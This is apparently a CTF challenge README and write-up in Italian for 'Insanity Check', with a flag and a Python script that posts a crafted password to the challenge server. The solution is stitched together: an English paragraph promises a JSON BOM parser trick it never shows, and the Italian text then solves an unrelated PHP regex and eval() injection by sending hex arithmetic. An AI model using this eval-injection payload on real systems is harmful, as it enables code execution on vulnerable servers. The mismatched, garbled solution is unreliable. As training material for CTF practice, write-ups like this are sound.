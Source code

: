 # Insanity Check

## Setup
```
cd build
docker compose up
Ora il sito è disponibile al link: [http://localhost:4567]([http://www.beginner.havce.it:8080)](http://localhost:4567)
```

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
You should make a JSON that satisfies the following conditions:

The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `dammilaflag`.
The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.
In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:


Come affermato nella descrizione, il primo obiettivo era superare le REGEX.


La prima REGEX controlla se la password contiene caratteri non compresi nella funzione `preg_match`, per esempio lo spazio ( ).
```php
if (!preg_match("/^[a-zA-Z0-9_\-'(),]+$/", $inp, $matches))
```

La seconda REGEX:
- Controlla se la stringa contiene almeno un numero.
- Controlla se la stringa contiene almeno una lettera.
- Controlla se la stringa contiene almeno uno degli underscore ( _ ) o dei trattini ( - ).
```php
if (!(preg_match("/[0-9]/", $inp, $matches) && preg_match("/[a-zA-Z]/", $inp, $matches) && preg_match("/[_-]/", $inp, $matches)))
```

La terza REGEX controlla se la password contiene il numero "1".
```php
if (preg_match("/[1]/", $inp, $matches))
```


Arrivati a questo punto dobbiamo porci un altro obiettivo, quello di superare l'ultimo controllo.
```php
if ($inp != "192014812")
```

Ovviamente visto che la stringa contiene il numero "1", la password "192014812" non è valida.
Osservando il codice però, possiamo osservare che prima di `strcmp` viene eseguita la funzione [`eval`](https://www.php.net/manual/en/function.eval.php).
```php
eval("\$input=$inp;");
```
Grazie al funzionamento interno della funzione `eval`, possiamo usarla a nostro favore, passando come parametro "192014812" codificato, per esempio in esadecimale.
Ricordiamoci che non possiamo passare direttamente il numero codificato, ma possiamo per esempio passare `192014822 - 10`.

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
